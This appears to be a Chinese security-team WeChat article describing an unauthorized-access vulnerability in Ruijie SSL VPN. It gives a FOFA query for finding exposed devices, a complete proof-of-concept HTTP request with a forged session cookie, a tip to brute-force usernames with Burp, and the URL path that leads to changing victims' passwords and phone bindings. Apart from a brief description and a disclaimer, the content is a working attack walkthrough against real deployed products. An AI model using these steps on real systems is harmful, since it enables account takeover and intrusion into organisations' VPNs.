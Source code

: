 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/-ZfUzM9WYo4P1d3Zq1UQjQ)

**很强点击蓝字**

![](https://mmbiz.qpic.cn/mmbiz_gif/4LicHRMXdTzCN26evrT4RsqTLtXuGbdV9oQBNHYEQk7MPDOkic6ARSZ7bt0ysicTvWBjg4MbSDfb28fn5PaiaqUSng/640?wx_fmt=gif)

**关注我们**

  

**_声明  
_**

本文作者：PeiQi  
本文字数：681

阅读时长：5min

附件 / 链接：点击查看原文下载

声明：请勿用作违法用途，否则后果自负

本文属于【狼组安全社区】原创奖励计划，未经许可禁止转载

  

  

**_前言_**

  

一、

**_漏洞描述_**

Ruijie SSL VPN 存在越权访问漏洞，攻击者在已知用户名的情况下，可以对账号进行修改密码和绑定手机的操作。并在未授权的情况下查看服务器资源  

二、

**_漏洞影响  
_**

Ruijie SSL VPN  

**三、**

**_漏洞复现_**

FOFA 语法

```
icon_hash="884334722" || title="Ruijie SSL VPN"
```

  
访问目标 http://xxx.xxx.xxx.xxx/cgi-bin/installjava.cgi

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzBVvicBFUlseTHFTXALE0D9Xhiat7O9M6WcFsNedHoDzh1BMLBTicVBYmBtk5OSz0Iw6RRTB8SBO6Bqw/640?wx_fmt=png)

POC 请求包如下  

```
GET /cgi-bin/main.cgi?oper=getrsc HTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: close
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: UserName=xm; SessionId=1; FirstVist=1; Skin=1; tunnel=1
```

其中注意的参数为

```
Cookie: UserName=xm; SessionId=1; FirstVist=1; Skin=1; tunnel=1
```

UserName 参数为已知用户名

> 在未知登录用户名的情况下 漏洞无法利用 (根据请求包使用 Burp 进行用户名爆破)

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzBVvicBFUlseTHFTXALE0D9X2GXC5nAibBTfiaJ7umWd4F0qotpichlB2ejlXf8oic5ZwicQlxfdaibsK27g/640?wx_fmt=png)

用户名正确时会返回敏感信息  

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzBVvicBFUlseTHFTXALE0D9XiaUZ2wMPv0piakRpR3pU8TgKgDd2CicZAvUc0QRUIxHqUrePul4RvZtlg/640?wx_fmt=png)

通过此方法知道用户名后可以通过漏洞修改账号参数

访问 http://xxx.xxx.xxx.xxx/cgi-bin/main.cgi?oper=showsvr&encode=GBK&username=liuw&sid=1&oper=showres

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzBVvicBFUlseTHFTXALE0D9XwRAkiaBdBf0TibGibQictAibFOaQlvyymRjibA5tCLiaer9pg8eNlk73WialYw/640?wx_fmt=png)

点击个人设置跳转页面即可修改账号信息

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzBVvicBFUlseTHFTXALE0D9XIPjHZvjRVicVeibiaL5zf0U4RdgiaMlDR39MY5l1zl94dSH5MCsJ39LpzQ/640?wx_fmt=png)

参考文章  

https://mp.weixin.qq.com/s/iRmDQJH23FJ6mL_GzXeL6g

**团队【PeiQi】师傅的微信二维码放在这了**

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzBVvicBFUlseTHFTXALE0D9XhJILPG5qnhYyI1fjI4vqjV0MgnUM4ibYRfCFaV4wk5FRaGibxMptiadRw/640?wx_fmt=png)

  

**_扫描关注公众号回复加群_**

**_和师傅们一起讨论研究~_**

  

**长**

**按**

**关**

**注**

**WgpSec 狼组安全团队**

微信号：wgpsec

Twitter：@wgpsec

![](https://mmbiz.qpic.cn/mmbiz_jpg/4LicHRMXdTzBhAsD8IU7jiccdSHt39PeyFafMeibktnt9icyS2D2fQrTSS7wdMicbrVlkqfmic6z6cCTlZVRyDicLTrqg/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_gif/gdsKIbdQtWAicUIic1QVWzsMLB46NuRg1fbH0q4M7iam8o1oibXgDBNCpwDAmS3ibvRpRIVhHEJRmiaPS5KvACNB5WgQ/640?wx_fmt=gif)